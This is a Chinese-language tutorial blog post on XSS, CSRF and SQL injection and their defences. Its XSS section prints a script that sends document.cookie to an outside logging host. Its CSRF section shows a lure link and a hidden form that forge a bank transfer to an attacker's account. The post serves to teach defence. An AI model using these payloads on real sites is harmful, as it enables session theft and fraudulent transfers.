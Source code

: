 ```yaml
---
title: 常见web安全及防护原理
date: 2018-03-22 13:54:59
tags:
  - web
categories:
---
```


<a href="#xss">1. XSS-跨站脚本攻击</a>
<a href="#csrf">2. CSRF-跨站请求伪造</a>
<a href="#sql">3. SQL 注入</a>

- 通常来说CSRF是由XSS实现的，所以CSRF时常也被称为XSRF[用XSS的方式实现伪造请求]（但实现的方式绝不止一种，还可以直接通过命令行模式（命令行敲命令来发起请求）直接伪造请求[只要通过合法验证即可]）。
- XSS更偏向于代码实现（即写一段拥有跨站请求功能的JavaScript脚本注入到一条帖子里，然后有用户访问了这个帖子，这就算是中了XSS攻击了），CSRF更偏向于一个攻击结果，只要发起了冒牌请求那么就算是CSRF了。

#### <a name="xss">1、XSS-跨站脚本攻击</a>
- **什么是 `XSS`：**
  - `XSS`：跨站脚本（`Cross-site scripting`，通常简称为 `XSS`）是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了 `HTML` 以及用户端脚本(`JavaScript`)语言。
  - 即：通过客户端脚本语言（最常见如：`JavaScript`）在一个论坛发帖中发布一段恶意的 `JavaScript` 代码就是脚本注入，如果这个代码内容有请求外部服务器，那么就叫做`XSS`！
- **如何做到 `XSS`：**
  1. 利用别人的 `cookie`，可以冒充真实的用户，在颁发 `cookie` 的那个网站中为所欲为。因为浏览器的同源策略，所以不能获取到其他网站的cookie，但通过把JavaScript代码注入到目标页面中，就能绕过同源策略，比如在HTML的 `<input>` 中注入JavaScript代码，等到数据提交到服务器端，会保存下来，下次展示页面的时候，就会执行这段代码。
  举例有这样一个网站，可以让你对某个文章输入评论：
  <img src="/images/xss1.png" alt="xss">
  2. 等到再次有人访问这个页面的时候，就可以把那个人的cookie显示出来了！当然不能直接把用户的cookie直接alert出来，而同源策略严格限制了JavaScript的跨域访问，但同源策略并不限制 `<img>` 这样的标签从别的网站（跨域）去下载图片，所以可以通过创建一个不可见的 `<img>` ，通过这个 `<img>` 发cookie到自己的服务器。
  直接上代码：
  ```js
  var img = document.createElement("img");
  img.src = "http://web.com/log?" + escape(document.cookie);
  document.body.appendChild(img);
  ```
  3. 只要这段代码被执行，用户的cookie就会发送到别人的服务器上(`http://web.com/log`)。再将这段代码封装成一个js文件(web.js)。
    <img src="/images/xss2.png" alt="xss">
    这样就可以拿到用户的cookie。这种窃取用户的cookie的方法叫做XSS。
    `注：`按照XSS的分类方法，上面介绍的叫做存储性XSS，危害最大。还有反射型XSS，基于DOM的XSS，本文不再展开。
- **如何防范 `XSS`：**
  - 首先代码里对用户输入的地方和变量都需要仔细检查长度和对`<`,`>`,`;`,`'`等字符做过滤；其次任何内容写到页面之前都必须加以 `encode`，避免不小心把 `html tag` 弄出来。这一个层面做好，至少可以堵住超过一半的XSS攻击
  - 避免直接在cookie 中泄露用户隐私，例如email、密码等等
  - 其次，通过使cookie 和系统 `ip` 绑定来降低cookie 泄露后的危险。这样攻击者得到的cookie 没有实际价值，不可能拿来重放
  - 如果网站不需要再浏览器端对cookie 进行操作，可以在 `Set-Cookie` 末尾加上 `HttpOnly` 来防止javascript 代码直接获取cookie 
  - 尽量采用POST 而非GET 提交表单

#### <a name="csrf">2、CSRF-跨站请求伪造</a>
- **什么是 `CSRF`：**
  - `CSRF`：跨站请求伪造（英语：`Cross-site request forgery`），也被称为 `one-click attack` 或者 `session riding`，通常缩写为 `CSRF` 或者 `XSRF`， 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。
  - 即：冒充用户发起请求（在用户不知情的情况下）,完成一些违背用户意愿的请求（如恶意发帖，删帖，改密码，发邮件等）。
- **如何做到 `CSRF`：**
  1. 一个用户的会话cookie在浏览器没有关闭的时候，是不会被删除的，所以可以换个思路，不再去偷这个cookie了，相反，可以在web.com中构造一个领奖页面，里面包含一个连接，让用户去惦记，例如：
  ```html
  恭喜你获得了iPhoneX一台，快来<a href="www.icbc.com.cn/transfer?toBankId=黑客的账户&money=金额">领取</a>吧
  ```
  2. 这得先知道icbc.com.cn的转账操作的url和参数名称。如果这个用户恰好登录了icbc.com，那他的cookie还在，当他禁不住诱惑，点了这个链接后，一个转账操作就神不知鬼不觉的发生了。
  `注：`为了方便展示，本文举了一个非常简单的案例，银行实际的转账操作要远远比文章描述安全的多。
  3. 除了让用户点击外，还可以使用img标签 `<img src="www.icbc.com.cn/transfer?toAccountID=黑客三兄弟的账户&money=金额">`，只要用户打开了这个页面，不点击任何东西，就会发生转账操作。所以现在有很多邮箱默认是不显示邮件中的图片的。
  4. 如果icbc.com.cn的转账操作需要form表单，是POST操作，那么可以自己创建一个表单，放到一个不可见的iframe中，用户只要一访问，就用JavaScript自动提交：
  ```html
  <form action="http://www.icbc.com.cn/transfer" method="POST">
    <input type="text" name="toAccountID" value="黑客的账号"/>
    <input type="text" name="money" value="金额"/>
  </form>
  ```
  5. 总之，只要用户在访问icbc.com.cn的时候，访问了web.com，就极有可能中招，这种方式，只是利用了一下合法的Cookie，在服务器看来，发出的这个请求是一次合法的请求。这个就叫跨站请求伪造，Cross Site Request Forgest (CSRF)。
- **如何防范 `CSRF`：**
  1. 用户在icbc.com.cn转账，显示转账的form，除了常用的字段之外，额外添加一个token:
  ```html
  <form action="http://www.icbc.com.cn/transfer" method="POST">
    <input type="hidden" name="token" value="axsa;dsww98725678836554xskdhf82735672"/>
    <input type="text" name="toAccountID" value="黑客的账号"/>
    <input type="text" name="money" value="金额"/>
  </form>
  
  <!-- 这个token是icbc.com服务器端生成的，是一个随机的数字。 -->
  ```
  2. 用户的转账数据发送的服务器端，icbc.com就会检查从浏览器发过来的数据中有没有token，并且这个token的值是不是和服务器端保存的相等，如果相等，就继续执行转账操作，如果不相等，那这次POST请求肯定是伪造的。
    这个token是服务器端生成的，无法伪造，CSRF的手段也不行了。
  3. 服务端的CSRF方式方法很多样，但总的思想都是一致的，就是在客户端页面增加伪随机数，或者通过验证码的方法。

#### <a name="sql">3、SQL 注入</a>
- **什么是 `SQL` 注入：**
  - 就是通过把SQL命令插入到Web表单递交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。
- **如何防范：**
  1. 永远不要信任用户的输入，要对用户的输入进行校验，可以通过正则表达式，或限制长度，对单引号和双"-"进行转换等。
  2. 永远不要使用动态拼装SQL，可以使用参数化的SQL或者直接使用存储过程进行数据查询存取。
  3. 永远不要使用管理员权限的数据库连接，为每个应用使用单独的权限有限的数据库连接。
  4. 不要把机密信息明文存放，请加密或者hash掉密码和敏感的信息。

<p style="text-align: right;">`参考文档` [segmentfault](https://segmentfault.com/a/1190000013022789)</p>
